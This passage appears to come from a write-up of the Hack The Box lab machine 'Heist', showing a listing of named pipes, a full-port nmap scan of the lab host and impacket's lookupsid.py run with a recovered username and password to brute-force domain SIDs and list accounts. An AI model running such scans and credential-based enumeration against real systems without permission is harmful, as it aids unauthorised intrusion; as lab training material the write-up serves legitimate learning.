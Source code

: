 ```console
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.15.30346628
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.16.172852495
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.17.168114854
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.18.166146723
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.19.63744810
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.2260.0.150119012
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.2260.1.18573163
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.20.111812004
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.21.68148107
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.22.1376651
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.23.198928415
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.24.56361976
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.25.125134987
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.26.213249201
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.4140.0.192125083
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.4140.1.54695493
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 iisipm5a6341d4-1fc4-44b8-8bad-385e6c194bd3
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 iislogpipeec95ece0-7f1c-432c-b75d-f731e4c42489
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 IISFCGI-bdc6289b-c826-409f-acdb-4be010b8abbb
```

So there could be some interesting stuff here, but nothing really I could do with anything. The ROUTER line is especially attractive to me. I spent a lot of time here - which also included me running another, more broad nmap scan where I discovered a few more ports opened that I had missed initially.

```console
root@endeavour:~/htb/heist# nmap -p1-65535 -sV -sS -T4 10.10.10.149
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-06 19:16 EDT
Nmap scan report for 10.10.10.149
Host is up (0.039s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.06 seconds
```
Enter ports **5985** and **49669**. 

**5985** - This is a Windows remote management protcol port.

**49669** - I can't find too much about this port, but nmap is saying that its a Windows RPC port.

I wanted to enumerate a little more before deciding what direction to go. I tried a few more of the impacket tools without many results until I got to [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py):

```console
root@endeavour:/usr/local/bin# python lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
```